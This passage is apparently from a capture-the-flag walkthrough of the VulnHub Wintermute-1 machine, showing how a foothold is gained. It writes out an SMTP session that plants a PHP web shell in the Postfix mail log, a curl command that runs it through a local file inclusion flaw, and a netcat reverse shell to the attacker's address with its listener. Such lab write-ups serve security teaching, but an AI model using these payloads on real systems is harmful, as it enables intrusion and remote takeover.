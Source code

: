 ![](images/6.png)

## Foothold

### Postfix mail log file backdoor

I used Postfix SMTP and sent a email with [php backdoor](https://github.com/leecybersec/web-shell/blob/master/php/backdoor.php)

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/vulnhub/wintermute-1)

``` bash
┌──(Hades㉿192.168.56.110)-[3.0:40.9]~/scripting
└─$ nc -nC 192.168.56.102 25
220 straylight ESMTP Postfix (Debian/GNU)
mail from: "hades <?php system($_GET['cmd']); ?> hades"
250 2.1.0 Ok
rcpt to: "root@localhost"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
.
250 2.0.0 Ok: queued as D4E985515
quit
221 2.0.0 Bye
```

![](images/7.png)

Go to Postfix mail log file `/var/log/mail`

``` bash
curl -v --silent "http://192.168.56.102/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=$cmd" 2>&1 | sed -ne '/hades/,$ p' | sed '/hades@/Q' | sed 's/.*hades //'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Getting reverse shell

``` bash
hURL -U 'nc -nv 192.168.56.110 4444 -e /bin/bash'
```

``` bash
cmd='nc%20-nv%20192.168.56.110%204444%20-e%20%2Fbin%2Fbash'
```

``` bash
curl -v --silent "http://192.168.56.102/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=$cmd" 2>&1 | sed -ne '/hades/,$ p' | sed '/hades@/Q' | sed 's/.*hades //'
```

``` bash
sudo nc -nvlp 4444
```
